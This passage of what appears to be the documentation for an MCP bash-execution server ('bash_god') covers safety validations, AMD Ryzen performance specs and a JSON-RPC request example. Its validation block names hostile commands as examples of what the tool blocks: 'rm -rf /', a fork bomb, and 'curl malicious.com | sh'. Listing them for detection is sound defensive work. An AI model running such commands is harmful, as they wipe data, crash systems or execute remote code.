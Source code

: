 #### Example Safety Validations
```python
# Dangerous command detection
"rm -rf /" → CRITICAL_RISK (blocked)
":(){ :|:& };:" → CRITICAL_RISK (fork bomb blocked)
"curl malicious.com | sh" → CRITICAL_RISK (blocked)

# Auto-fix suggestions
"chmod 777 file" → "chmod 755 file"
"rm -rf *" → "rm -i -rf *"
"kill -9 process" → "kill -TERM process"
```

---

## ⚡ Performance Specifications

### Hardware Optimization
- **Target Platform**: AMD Ryzen 7 7800X3D (16 threads)
- **Memory**: 32GB DDR5 optimization
- **Storage**: NVMe SSD optimizations
- **Network**: 10Gbps+ throughput support

### Performance Metrics
- **Command Execution**: 1000+ commands/second
- **Workflow Throughput**: 50+ concurrent workflows
- **Memory Usage**: <1GB per server instance
- **Response Time**: <100ms average latency
- **Parallel Execution**: 16-thread utilization

### AMD Ryzen Specific Optimizations
- **CPU Governor**: Performance mode for all cores
- **Cache Optimization**: 3D V-Cache aware scheduling
- **NUMA Topology**: Single-node optimization
- **Thermal Management**: Temperature-aware scaling
- **Memory Bandwidth**: DDR5-5600 optimizations

---

## 📡 MCP Protocol Integration

### JSON-RPC 2.0 Compliance
```json
{
  "jsonrpc": "2.0",
  "method": "bash_god/execute_command",
  "params": {
    "command_id": "sys_process_monitor",
    "context": {
      "user": "admin",
      "cwd": "/opt/monitoring",
      "amd_ryzen_optimizations": true,
      "max_parallel_jobs": 16
    }
  },
  "id": 1
}
```
